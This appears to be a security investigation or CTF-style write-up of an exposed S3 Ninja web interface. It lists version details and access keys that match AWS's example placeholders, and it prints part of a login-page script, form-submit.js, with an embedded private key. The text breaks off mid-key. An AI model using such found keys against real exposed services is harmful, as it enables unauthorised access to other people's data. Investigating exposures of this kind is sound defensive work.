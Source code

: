 <img width="990" height="625" alt="image" src="https://github.com/user-attachments/assets/fc7ae654-8eee-440f-89a9-b0569cb2716b" />


<br>
<br>
<h2>/ui</h2>
<p>

- S3 ninja<br>
- Version: 8.3.3., Build: 433 (2024-02-14 10:40), Revision: 75e012cb6689de1921bd07a07c5c886d0a683866<br>
- Storage Path: /home/sirius/data (Free: 31.49 GB)<br>
- Access Key: AKIAIOSFODNN7EXAMPLE<br>
- Secret Key: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY</p>


<img width="1056" height="514" alt="image" src="https://github.com/user-attachments/assets/3f36f360-fdf5-4413-9af6-b767af87daf5" />

<br>
<br>
<h2>/ui/libraries</h2>

<p>

- <code>Make private</code><br>
- <code>Upload file</code><br>
- auth.js<br>
- form-submit.js<br>
- Actios: Properties, Delete<br>
- Fork me on GitHub: https://github.com/scireum/s3ninja<<br>
- Supported API: Supported Object Methods, Supported Multipart Methods<br>
- Access Logs: identified many occurences of form-submit.js.</p>

<img width="1052" height="638" alt="image" src="https://github.com/user-attachments/assets/920a3921-8207-4ab3-9765-44d1f7254b1b" />

<br>
<br>

<img width="1056" height="721" alt="image" src="https://github.com/user-attachments/assets/f4e87b09-609b-4e00-8ac2-734a86b253ca" />

<br>
<br>

<img width="1060" height="725" alt="image" src="https://github.com/user-attachments/assets/63e74ce1-53b4-42be-9aed-49616ed54090" />

<br>
<br>

<h2>/ui/libraries/form-submit.js</h2>

```bash
const form = document.querySelector('#login-form');
const privkey = `MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQCuL9Yb8xsvKimy
lR/MJB2Z2oBXuIvIidHIVxf7+Sl3Y35sU53Vd+D1QOuJByvpLmpczYsQkUMJmKha
36ibC2gjBMlTlZJ0OwnjG+Na0libW9fnWZVKq0JuAhyJd9OUyO0Up1hk2W6/1abU
OuEcYn1CTdYrTq7pdRhKLp2kYfVo64oV+NPDgQWvaIyR9vdEA+tGa4bgm5BQENaw
0Uh6qrtBh8pFKDX9EMEizauhRAsOUVlZ6ZYWCiT+A+IGZHpzFIXWh0gRbIANDZAd
g+CATLT/jee9wi0Vvg7L4o/Xn293SIAXYK7NYEHwMZP/SSmtcasYSFfgFvZ3BX+j
OLNynG5lAgMBAAECggEABXwFGlEvwG7r7C8M1sEmW3NJSjnJ0PEh9VRksW7ZcuRj
lSaW2CNTpnU6VVCv/cIT4EMqh0WDnlg7qMzVAri7uSqL6kFR4K4BNDDrGi94Ub/1
Dtg/vp+g0lTnsB5hP5SJ/nX8bwR3m7uu6ozGDL4/ImjP/wIVuM0SjDdmiEf7UafX
iWE12Lq5RbsHnvcXte2wl09keRszatRk/ODrqMPxzjS1NSt6KBfxtiRPNB+GZt1y
DhYKaHEO0riDsUiXurMwt7bAlupiiIS0pDAfNDEnvc2gWaiir8pIFGezowd+sIOd
XSW3aJU2Y5ByroelgkovRNIpF2QPXfFSsHyzx5uQawKBgQDsnwAuzp07CaHrXyaJ
HBno149LOaGYzRucxdKFFndizY/Le7ONl4PujRV+dwATAnuo8WIz7Upitd1uuh+H
0n37G4gaKIPK0o/pNYgIpMAoWSRI9zkPyId8yBEcpMJiUYXhXziQHhYhJ3shzn/2
Rh5RDS31tCxykpe5AHATw+R60wKBgQC8c9bPRNakEftP4IkC5wriHXpwEXYWRmCf
rRmeJmfApUgGfnAWzWBu1D5eHZU5z+6iojSSyxZSGJfKedON6loySWww/ZF/1QqQ
```